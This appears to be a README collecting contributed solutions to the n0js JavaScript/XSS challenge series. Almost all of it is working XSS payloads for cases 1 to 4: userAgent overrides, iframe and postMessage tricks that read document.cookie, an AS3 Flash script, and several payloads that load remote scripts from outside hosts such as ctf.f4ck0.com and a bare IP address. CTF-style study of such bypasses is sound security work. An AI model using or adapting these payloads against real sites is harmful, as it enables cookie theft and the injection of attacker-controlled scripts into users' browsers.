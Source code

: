 # n0js Challenges

[http://server.n0tr00t.com/n0js/case1.html](http://server.n0tr00t.com/n0js/case1.html)

	#### @Nearg1e [yourneargo@gmail.com]
	- http://server.n0tr00t.com/n0js/case1_writeup.txt

[http://server.n0tr00t.com/n0js/case2.html](http://server.n0tr00t.com/n0js/case2.html)

	#### @fyth
    - case2.html?a=location.hash.substr(1)#setTimeout("hi.eval('prompt(location.href)')",500)
    - case2.html?a=location.hash.substr(1)#navigator.__defineGetter__('userAgent', function(){ return '<svg/onload=prompt(location.href)>'})

	#### @evi1m0

    - case2.html?a=location.hash.substr(1)#var frame = document.createElement('iframe');
      frame.style.display = 'none'; document.body.appendChild(frame);
      function navigator(){} window.navigator = new Proxy(window.frames[0].window.navigator,
      { get: function(n0t){return "<img src=@ onerror=alert(location.href)>";} })
      
	#### 1124696276

    - case2.html?a=location.hash.substr(1)#function createProperty(value){var _value=value;function _get(){return _value}function _set(v){_value=v}return{"get":_get,"set":_set}};
      function makePropertyWritable(objBase,objScopeName,propName,initValue){var newProp,initObj;if(objBase&&objScopeName in objBase&&propName in objBase[objScopeName])
      {if(typeof initValue==="undefined"){initValue=objBase[objScopeName][propName]}
	  newProp=createProperty(initValue);try{Object.defineProperty(objBase[objScopeName],propName,newProp)}
      catch(e){initObj={};initObj[propName]=newProp;
      try{objBase[objScopeName]=Object.create(objBase[objScopeName],initObj)}catch(e){}}}};
      makePropertyWritable(window,"navigator","userAgent");
      window.navigator.userAgent="<script>prompt(location.href)</script>";
    
	#### @gaoheby
	- case2.html?a=window.location.hash.substring(1)#Object.defineProperty(navigator,'userAgent',
	  {get:function(){return '<script>prompt(location.href)</script>';}})
    
	#### Cnlouds
	- case2.html?test=location.hash.substr(1)#window.addEventListener('load', function(){window.hi.prompt(hi.location.href)});

	#### kaotudou [jianshu.com/p/eb22e86635e0]
	- case2.html?1=eval((window.location.search.substring(49)));
      =var/**/script=document.createElement`script`;script.src=`https://
      ctf.f4ck0.com/1.js`;document.body.appendChild(script);

[http://server.n0tr00t.com/n0js/case3.php](http://server.n0tr00t.com/n0js/case3.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case3.php?2017=%3Cobject%20allowscriptaccess=always%3E%20%3Cparam%20name=url%20value=http://tangzi.info:43992/payload/n0js_case3.swf%3E
	- AS3 Script:
	    package {
	        import flash.*;
	        import flash.net.*;
	
	        public class XSS {
	
	            public function XSS():void{
	            }
	            public static function main():void{
	                Lib.getURL(new URLRequest("javascript:a=document.createElement('iframe');a.src='https://www.n0tr00t.com/static/test/helloevent.html';document.body.appendChild(a);setTimeout(function(){window.frames[0].postMessage('<img src=1 onerror=prompt(document.cookie)>','*')},3000);"), "_top");
	            }
	
	        }
	    }
	    
	#### daocaoren [jkme.github.io/n0js-case3.html]
	- case3.php?2017=%3Csvg%3E%3Cset+href%3d%23script+attributeName%3dhref+to%3ddata%3a%2cs%3ddocument.createElement(%22script%22)
	  %3bs.src%3d%22http%3a%2f%2f45.32.138.203%2f2.js%22%3bdocument.body.appendChild(s)%3b+%2f%3E%3Cscript+id%3dscript+src%3dfoo%3E%3C%2fscript%3E+
	- jssource:
	    var t = document.createElement("iframe");
	    t.setAttribute("src","https://www.n0tr00t.com/static/test/helloevent.html");
	    document.body.appendChild(t);
	
	    function a(){
	        var b = document.createElement("button");
	        b.setAttribute("onclick","frames[0].postMessage('<img src=x onerror=alert(document.cookie)>','*')");
	        b.click();
	    }
	    //setTimeout("a()",3000);
	    window.onload = a();
	    
[http://server.n0tr00t.com/n0js/case4.php](http://server.n0tr00t.com/n0js/case4.php)
	
	#### @woto [woto3679@gmail.com]
	- case4.php?x=d=document;D=Document.prototype;D.appendChild.call(d.body,(D.createElement.call(d,%22iframe%22))).contentWindow.prompt.call(window,location);
	
	#### @evi1m0 [evi1m0.bat@gmail.com]
	- case4.php?x=document.writeln(%27%3Ciframe%3E%27);frames[0].prompt(location)

	#### @Nearg1e [yourneargo@gmail.com]
	- case4.php?x=document.writeln(%22%3Ciframe%3E%3C/iframe%3E%22);let%20f=document.querySelector(%27iframe%27);f.contentWindow.prompt(location);

[http://server.n0tr00t.com/n0js/case5.php](http://server.n0tr00t.com/n0js/case5.php)